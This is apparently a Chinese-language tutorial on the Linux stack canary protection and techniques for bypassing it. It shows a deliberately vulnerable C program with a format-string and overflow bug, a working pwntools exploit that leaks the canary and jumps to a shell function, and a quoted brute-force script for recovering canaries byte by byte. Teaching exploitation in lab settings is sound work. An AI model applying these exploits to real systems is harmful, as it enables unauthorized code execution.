


介绍
Canary 的意思是金丝雀，来源于英国矿井工人用来探查井下气体是否有毒的金丝雀笼子。工人们每次下井都会带上一只金丝雀。如果井下的气体有毒，金丝雀由于对毒性敏感就会停止鸣叫甚至死亡，从而使工人们得到预警。
我们知道，通常栈溢出的利用方式是通过溢出存在于栈上的局部变量，从而让多出来的数据覆盖 ebp、eip 等，从而达到劫持控制流的目的。栈溢出保护是一种缓冲区溢出攻击缓解手段，当函数存在缓冲区溢出攻击漏洞时，攻击者可以覆盖栈上的返回地址来让 shellcode 能够得到执行。当启用栈保护后，函数开始执行的时候会先往栈底插入 cookie 信息，当函数真正返回的时候会验证 cookie 信息是否合法 (栈帧销毁前测试该值是否被改变)，如果不合法就停止程序运行 (栈溢出发生)。攻击者在覆盖返回地址的时候往往也会将 cookie 信息给覆盖掉，导致栈保护检查失败而阻止 shellcode 的执行，避免漏洞利用成功。在 Linux 中我们将 cookie 信息称为 Canary。
由于 stack overflow 而引发的攻击非常普遍也非常古老，相应地一种叫做 Canary 的 mitigation 技术很早就出现在 glibc 里，直到现在也作为系统安全的第一道防线存在。
Canary 不管是实现还是设计思想都比较简单高效，就是插入一个值在 stack overflow 发生的高危区域的尾部。当函数返回之时检测 Canary 的值是否经过了改变，以此来判断 stack/buffer overflow 是否发生。
Canary 与 Windows 下的 GS 保护都是缓解栈溢出攻击的有效手段，它的出现很大程度上增加了栈溢出攻击的难度，并且由于它几乎并不消耗系统资源，所以现在成了 Linux 下保护机制的标配。
Canary原理
在GCC中使用Canary
可以在GCC中使用以下参数设置Canary：
-fstack-protector 启用保护，不过只为局部变量中含有数组的函数插入保护
-fstack-protector-all 启用保护，为所有函数插入保护
-fstack-protector-strong
-fstack-protector-explicit 只对有明确 stack_protect attribute 的函数开启保护
-fno-stack-protector 禁用保护Canary实现原理
开启Canary保护的stack结构大概如下：
High
Address | |
+-----------------+
| args |
+-----------------+
| return address |
+-----------------+
rbp => | old ebp |
+-----------------+
rbp-8 => | canary value |
+-----------------+
| 局部变量 |
Low | |
Address当程序启用 Canary 编译后，在函数序言部分会取 fs 寄存器 0x28 处的值，存放在栈中 %ebp-0x8 的位置。 这个操作即为向栈中插入 Canary 值，代码如下：
mov rax, qword ptr fs:[0x28]
mov qword ptr [rbp - 8], rax在函数返回之前，会将该值取出，并与fs:0x28的值进行异或。如果异或的结果为0，说明Canary未被修改，函数会正常返回，这个操作即为检测是否发生栈溢出。
mov rdx,QWORD PTR [rbp-0x8]
xor rdx,QWORD PTR fs:0x28
je 0x4005d7
call 0x400460 <__stack_chk_fail@plt> 如果Canary已经被非法修改，此时程序流程会走到 __stack_chk_fail。__stack_chk_fail也是位于Glibc中的函数，默认情况下经过ELF的延迟绑定，定义如下。
eglibc-2.19/debug/stack_chk_fail.c
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
__fortify_fail ("stack smashing detected");
}
void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
/* The loop is added only to keep gcc happy. */
while (1)
__libc_message (2, "*** %s ***: %s terminated\n",
msg, __libc_argv[0] ?: "");
} 这意味可以通过劫持 __stack_chk_fail 的 got 值劫持流程或者利用 __stack_chk_fail 泄漏内容 (参见 stack smash)。
进一步，对于Linux来说，fs寄存器实际指向的是当前栈的TLS结构(线程本地储存),fs:0x28指向的正是stack_guard。
typedef struct
{
void *tcb; /* Pointer to the TCB. Not necessarily the
thread descriptor used by libpthread. */
dtv_t *dtv;
void *self; /* Pointer to the thread descriptor. */
int multiple_threads;
uintptr_t sysinfo;
uintptr_t stack_guard;
...
} tcbhead_t;如果存在溢出可以覆盖位于TLS中保存的Canary值那么就可以实现绕过保护机制。事实上，TLS中的值由函数security_init进行初始化。
static void
security_init (void)
{
// _dl_random的值在进入这个函数的时候就已经由kernel写入.
// glibc直接使用了_dl_random的值并没有给赋值
// 如果不采用这种模式, glibc也可以自己产生随机数
//将_dl_random的最后一个字节设置为0x0
uintptr_t stack_chk_guard = _dl_setup_stack_chk_guard (_dl_random);
// 设置Canary的值到TLS中
THREAD_SET_STACK_GUARD (stack_chk_guard);
_dl_random = NULL;
}
//THREAD_SET_STACK_GUARD宏用于设置TLS
#define THREAD_SET_STACK_GUARD(value) \
THREAD_SETMEM (THREAD_SELF, header.stack_guard, value)Canary绕过技术
序言
Canary 是一种十分有效的解决栈溢出问题的漏洞缓解措施。但是并不意味着 Canary 就能够阻止所有的栈溢出利用，在这里给出了常见的存在 Canary 的栈溢出利用思路，请注意每种方法都有特定的环境要求。
泄露栈中的Canary
Canary 设计为以字节 \x00 结尾，本意是为了保证 Canary 可以截断字符串。 泄露栈中的 Canary 的思路是覆盖 Canary 的低字节，来打印出剩余的 Canary 部分。 这种利用方式需要存在合适的输出函数，并且可能需要第一溢出泄露 Canary，之后再次溢出控制执行流程。
利用示例
存在漏洞的示例源代码如下:
// ex2.c
#include
#include
#include
#include
void getshell(void) {
system("/bin/sh");
}
void init() {
setbuf(stdin, NULL);
setbuf(stdout, NULL);
setbuf(stderr, NULL);
}
void vuln() {
char buf[100];
for(int i=0;i<2;i++){
read(0, buf, 0x200);
printf(buf);
}
}
int main(void) {
init();
puts("Hello Hacker!");
vuln();
return 0;
} 编译过程：
devil@ubuntu:~$ gcc -m32 -no-pie -o ex2 ex2.c
ex2.c: In function ‘vuln’:
ex2.c:17:16: warning: format not a string literal and no format arguments [-Wformat-security]
printf(buf);
^后面我又改了一下，编译命令改成了
devil@ubuntu:~$ gcc -m32 -g -no-pie -o ex2 ex2.c
ex2.c: In function ‘vuln’:
ex2.c:17:16: warning: format not a string literal and no format arguments [-Wformat-security]
printf(buf);
-g参数可以用来后期调试的时候查看table表。举例来说：
我要下断在vuln()函数最后的一个’}’处，在pwndbg中就需要使用b+’行号’来下断(但这种形式下断点就需要编译的时候-g参数)。
此外，可以通过-l参数来查看可执行文件信息。
devil@ubuntu:~$ gdb -q ex2
pwndbg: loaded 181 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ex2...done.
pwndbg> b 19
Breakpoint 1 at 0x804863f: file ex2.c, line 19.
pwndbg> l 19
14 char buf[100];
15 for(int i=0;i<2;i++){
16 read(0, buf, 0x200);
17 printf(buf);
18 }
19 }
20 int main(void) {
21 init();
22 puts("Hello Hacker!");
23 vuln();检查编译程序开启的保护机制
devil@ubuntu:~$ checksec ex2
[*] '/home/devil/ex2'
Arch: i386-32-little
RELRO: Partial RELRO
Stack: Canary found
NX: NX enabled
PIE: No PIE (0x8048000)然后我一直在用pwndbg的cyclic计算溢出需要多少字节，我以为在vuln()处下断点就可以绕过canary，自动计算出需要填充的字节数…结果不行，所以我去IDA里面查了下。
buf地址:


0x70-0x0c–>0x64–>100
即填充100字节，我们就能来到buf处。
首先通过覆盖Canary最后一个\x00 字节来打印出4位的Canary之后，计算好偏移，将Canary填入到相应的溢出位置，实现Ret到getshell函数当中。
expliot脚本如下：
#!/usr/bin/env python
from pwn import *
context.binary = 'ex2'
#context.log_level = 'debug'
io = process('./ex2')
get_shell = ELF("./ex2").sym["getshell"]
io.recvuntil("Hello Hacker!\n")
# leak Canary
payload = "A"*100
io.sendline(payload)
io.recvuntil("A"*100)
Canary = u32(io.recv(4))-0xa
log.info("Canary:"+hex(Canary))
# Bypass Canary
payload = "\x90"*100+p32(Canary)+"\x90"*12+p32(get_shell)
io.send(payload)
io.recv()
io.interactive()one-by-one 爆破 Canary
对于 Canary，虽然每次进程重启后的 Canary 不同 (相比 GS，GS 重启后是相同的)，但是同一个进程中的不同线程的 Canary 是相同的， 并且 通过 fork 函数创建的子进程的 Canary 也是相同的，因为 fork 函数会直接拷贝父进程的内存。我们可以利用这样的特点，彻底逐个字节将 Canary 爆破出来。 在著名的 offset2libc 绕过 linux64bit 的所有保护的文章中，作者就是利用这样的方式爆破得到的 Canary: 这是爆破的 Python 代码:
print "[+] Brute forcing stack canary "
start = len(p)
stop = len(p)+8
while len(p) < stop:
for i in xrange(0,256):
res = send2server(p + chr(i))
if res != "":
p = p + chr(i)
#print "\t[+] Byte found 0x%02x" % i
break
if i == 255:
print "[-] Exploit failed"
sys.exit(-1)
canary = p[stop:start-1:-1].encode("hex")
print " [+] SSP value is 0x%s" % canary劫持__stack_chk_fail 函数
已知 Canary 失败的处理逻辑会进入到 __stack_chk_fail 函数，__stack_chk_fail 函数是一个普通的延迟绑定函数，可以通过修改 GOT 表劫持这个函数。
参见 ZCTF2017 Login，利用方式是通过 fsb 漏洞篡改 __stack_chk_fail 的 GOT 表，再进行 ROP 利用
覆盖TLS中储存的Canary值
已知 Canary 储存在 TLS 中，在函数返回前会使用这个值进行对比。当溢出尺寸较大时，可以同时覆盖栈上储存的 Canary 和 TLS 储存的 Canary 实现绕过。
参见 StarCTF2018 babystack